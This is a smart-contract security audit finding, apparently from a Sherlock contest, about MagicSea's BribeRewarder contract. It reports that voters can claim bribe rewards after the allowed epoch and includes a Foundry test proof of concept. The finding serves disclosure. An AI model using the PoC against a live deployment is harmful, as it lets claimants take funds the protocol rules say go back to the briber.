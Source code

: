 Chilly Iris Parakeet

High

# Voters can claim their rewards even after end of next epoch

## Summary
[Based on docs](https://docs.magicsea.finance/protocol/magic/magic-lum-voting)
> Bribes as an additional incentive to vote can be claimed 24-48 hours after an epoch has ended.<ins>Voters can claim the rewards until the next epoch is ended</ins>. Unclaimed rewards will be sent back to the briber

Let assume Alice votes for a specific pool in first epoch and in second epoch no one vote for that pool but in third epoch Alice can claim her reward but this is against protocol rules
## Vulnerability Detail
**Textual POC:**
`BribeRewarder::fundAndBribe`,`BribeRewarder::bribe`,`BribeRewarder::deposit`,`BribeRewarder::claim` change _lastUpdateTimestamp and when no one votes for a the pool its mean `BribeRewarder::deposit` will not be called and _lastUpdateTimestamp will not be updated and when Alice calls `BribeRewarder::claim` in third epoch because first epoch's endTime is greater than  _lastUpdateTimestamp hence Alice will get reward

**Coded POC:**
add this function to Voter.t.sol and before that u have to change setUp function
```diff
+ RewarderFactory _rewardFactory;
function setUp()public {
...
+ address factoryImpl = address(new RewarderFactory());

+        _rewardFactory = RewarderFactory(
+           address(
+                new TransparentUpgradeableProxy2Step(
+                    factoryImpl, ProxyAdmin2Step(address(1)), abi.encodeWithSelector(RewarderFactory.initialize.selector, DEV, 
+ _rewardType, _rewarder)
+                )
+           )
+        );
```
```solidity
    function testUserClaimTheirRewardEvenAfterEndOfNextEpoch() public {
        ERC20Mock pool = new ERC20Mock("lp","LP", 18);
        ERC20Mock usdt = new ERC20Mock("USDT","USDT", 6);
        usdt.mint(address(this), 300e6);

        IBribeRewarder _bribeRewarder1 = _rewardFactory.createBribeRewarder(usdt, address(pool));
    
        _createPosition(ALICE);
        _createPosition(BOB);


        
        usdt.approve(address(_bribeRewarder1), 300e6);
        _bribeRewarder1.fundAndBribe(1, 3, 100e6);
        //start first epoch
        vm.prank(DEV);
        _voter.startNewVotingPeriod();
        address[] memory pools = new address[](1);
        pools[0] = address(pool);

        
        vm.prank(ALICE);
        _voter.vote(1, pools, _getDeltaAmounts());

        skip(14 days);
        //end of first epoch
        //start second epoch
        vm.prank(DEV);
        _voter.startNewVotingPeriod();
        //end of second epoch
        skip(14 days);
        //start third epoch
        vm.prank(DEV);
        _voter.startNewVotingPeriod();
        vm.prank(ALICE);
        _bribeRewarder1.claim(1);
        assertGt(usdt.balanceOf(ALICE), 0);
    }
```
## Impact
voters causes broken  contract rules
## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/rewarders/BribeRewarder.sol#L160
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/rewarders/BribeRewarder.sol#L312

## Tool used

Manual Review

## Recommendation
